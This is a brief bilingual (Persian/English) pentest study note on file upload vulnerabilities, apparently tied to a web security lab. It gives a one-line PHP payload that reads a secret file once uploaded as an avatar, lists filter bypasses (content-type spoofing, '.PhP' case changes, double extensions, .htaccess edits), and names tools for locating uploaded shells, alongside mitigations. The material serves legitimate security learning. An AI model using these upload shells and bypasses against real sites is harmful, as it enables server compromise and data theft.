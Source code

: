 # File Upload

## Concept
- با تغییر نام فایل آپلود شده در Burp می توانیم حملات XSS و RCE انجام دهیم

## Exploitation
- آپلود شل PHP
  - برای عکس پروفایل، فایل *test.php* را با محتوای زیر را آپلود می کنیم
  - آدرس عکس آواتار را وارد می کنیم تا نتیجه اجرای کد PHP نمایش داده شود
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
- س

## Bypass
- Content type
  - ```application/octet-stream``` => ```Content-Type: image/jpeg```
- Black list
  - Apache web server is case sensetive
    - ```.php``` => ```.PhP```  
  - modify htaccess (SEC542 - 7) 
- Double Extension
  - *wp.php* => *wp.php.gif* 

## Mitigation
- Never allow users to upload executable
- Check the file type & extension
- Analyze the uploaded file itself, recreate it and rename it (with library)

## Find Uploaded Shell
- Burp
  - Intruder > Payloads > Add Payload Processing > test
  - Suffix: ```.php```
- Dirbuster
  - Set *Target URL* & *File name* & *File Extension*
  - Set user/pass to auto matically login to site
  - Options > Advanced Options > Double Extension

## Tool
- [Weevely](/Tools/weevely.md)
